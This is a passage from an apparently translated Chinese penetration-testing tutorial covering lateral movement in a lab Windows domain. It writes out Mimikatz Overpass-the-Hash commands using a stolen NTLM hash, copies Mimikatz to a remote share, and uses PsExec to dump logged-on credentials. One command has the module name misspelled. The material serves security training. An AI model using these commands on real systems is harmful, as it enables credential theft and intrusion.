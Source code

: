 现在我们已经登录到服务器，让我们尝试枚举当前域用户和组。请记住，我们已经收集了`serveradmin`和`helpdeskagent`的凭据。打开命令提示符并输入`net user /domain`命令失败，因为我们没有通过域进行身份验证：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/14f0558d-53ec-482e-bcbb-08e32416a1ed.png)

图 27：用户枚举被拒绝

由于我们有两个域凭据的哈希值，让我们使用这个来执行 Overpass-the-Hash 攻击。我们将使用 Mimikatz 工具的`serveradmin`哈希。执行此操作的命令如下：

```
Mimikatz.exe "privilege::debug" "sekurlsa::pth /user:serveradmin /ntlm:[ntlm hash] /domain:pentest.lab" "exit"
```

在这个命令中，我们告诉 Mimikatz 使用最高权限(`privilege::debug`)，通过 Overpass-the-Hash 攻击(`sekurlsa::pth`)并定义用户名(`/user`)、NTLM 哈希(`/ntlm`)和域(`/domain`)。

一旦命令执行，我们将会有一个新的命令提示符窗口打开。这个窗口将具有`serveradmin`账户的权限，因此允许我们在伪装成`serveradmin`的同时执行用户和组枚举：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/6401a820-27f6-4ef3-aadc-01969bee8e27.png)

图 28：成功的 Overpass-the-Hash 攻击

现在，让我们看看我们可以用`helpdeskagent`账户做些什么。在用户和组枚举期间，我们确定域中有一个`helpdeskagent`账户和一个`Helpdesk Staff`组。让我们假设用户账户是这个组的成员。我们可以通过使用`net user helpdeskagent /domain`命令来确认这一点：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/d6d1b129-6a70-4da6-a146-1b1ec98b9cbb.png)

图 29：验证 helpdeskagent 的组

确实，该账户是该组的成员。

在进行下一步之前，我们将重复执行 Overpass-the-Hash 攻击，但这次使用`helpdeskagent`账户的 NTLM 哈希。

# 执行横向移动

使用 Overpass-the-Hash 攻击使用`helpdeskagent`账户生成的新命令窗口，我们将尝试访问 Windows 10 PC。使用`dir \\192.168.10.9\c$`命令进行简单的目录列表显示了该目录。这告诉我们`Helpdesk Staff`可能在该 PC 上拥有本地管理员权限。

我们要做的第一件事是将 Mimikatz 复制到 Windows 10 PC。这可以通过使用`xcopy mimikatz.exe \\192.168.10.9\c$\tools`命令来完成。根据以下截图，由于我没有创建目录，我被提示定义目标是文件还是目录：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/4740813b-7b6c-4011-8221-a5bda59bbedf.png)

图 30：将 mimikatz.exe 复制到新目标

使用`PSexec`，我们将查看转储当前登录用户凭据。这可以通过以下命令完成：

```
psexec.exe \\192.168.10.9 -accepteula cmd /c (cd c:\tools ^& mimikatz.exe "privilege::debug" "seckurlsa::logonpasswords" "exit")
```

在这个命令中，我们告诉`PSexec`在远程系统上运行 Mimikatz 命令。`-accepteula`命令非常重要，因为这将阻止远程系统上的 EULA 提示出现：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/48ab34c0-243a-4b49-b876-83da3a361a9a.png)

图 31：使用 PSexec 远程执行 mimikatz 命令
